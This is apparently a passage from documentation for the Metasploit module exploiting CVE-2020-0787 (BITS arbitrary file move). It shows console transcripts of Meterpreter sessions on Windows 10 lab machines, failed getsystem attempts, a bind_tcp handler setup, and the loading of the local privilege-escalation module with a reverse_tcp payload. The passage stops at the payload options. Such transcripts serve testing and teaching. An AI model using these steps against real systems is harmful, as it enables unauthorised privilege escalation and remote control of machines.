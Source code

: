 ```
meterpreter > getuid
Server username: DESKTOP-DSPF8I1\test
meterpreter > sysinfo
Computer        : DESKTOP-DSPF8I1
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter >
```

### Windows 10 v1903 x86
```
msf5 > use multi/handler
semsf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set RHOST 172.22.177.183
RHOST => 172.22.177.183
msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.22.177.183:4444
[*] Sending stage (176195 bytes) to 172.22.177.183
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.22.177.183:4444) at 2020-06-08 07:37:40 -0500

meterpreter > sysinfo
Computer        : DESKTOP-PL99PE8
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(multi/handler) > use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCoreDeviceInfo.dll if it exists (false by default).
   SESSION                         yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

```
